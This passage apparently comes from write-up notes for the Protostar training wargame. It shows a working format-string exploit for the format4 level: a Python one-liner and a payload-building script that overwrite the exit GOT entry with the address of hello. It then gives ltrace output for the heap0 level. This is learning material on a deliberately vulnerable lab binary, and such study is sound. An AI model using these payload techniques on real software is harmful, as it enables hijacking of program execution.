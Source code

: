 ```
08049724 R_386_JUMP_SLOT   exit
```

From `objdump -d -M intel`: Memory address of hello is `0x080484b4`

Overwrite the offset with the dynamic relocation records with the memory address of hello

From: https://sh3llc0d3r.com/protostar-exploit-exercises-format4/
```
 python -c 'print"\x24\x97\x04\x08\x26\x97\x04\x08%33964d%4$n%33616d%5$n"' | /opt/protostar/bin/format4
```

Python Script Code Breakdown
```
debug = False

part1 = 0x84b4 # Lower bits
part2 = 0x0804 + 0x10000 # Upper bits + 0x10000
offset = 5

payload = "AAAA"
payload += "\x24\x97\x04\x08" # address1
payload += "\x26\x97\x04\x08" # address2

diff1 = part1-len(payload)
if debug:print(diff1)


payload += "%" + str(diff1) + "d" # Calculate the remaining length
payload += "%"+str(offset)+"$n" # write1

diff2 = part2-(len(payload)-len("%" + str(diff1) + "d" + "%"+str(offset)+"$n")+diff1)
if debug: print(diff2)

payload += "%" + str(diff2) + "d" # padding2
payload += "%"+str(offset+1)+"$n" # +1 (for extra 1 dword)

print(payload)
```

## heap0

You can use ltrace to get the return values of `malloc(...)`
```
$ ltrace ./heap0
__libc_start_main(0x804848c, 1, 0xbffff894, 0x8048520, 0x8048510 <unfinished ...>
malloc(64)                                                                          = 0x0804a008
malloc(4)                                                                           = 0x0804a050
printf("data is at %p, fp is at %p\n", 0x804a008, 0x804a050data is at 0x804a008, fp is at 0x804a050
)                        = 41
strcpy(0x0804a008, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
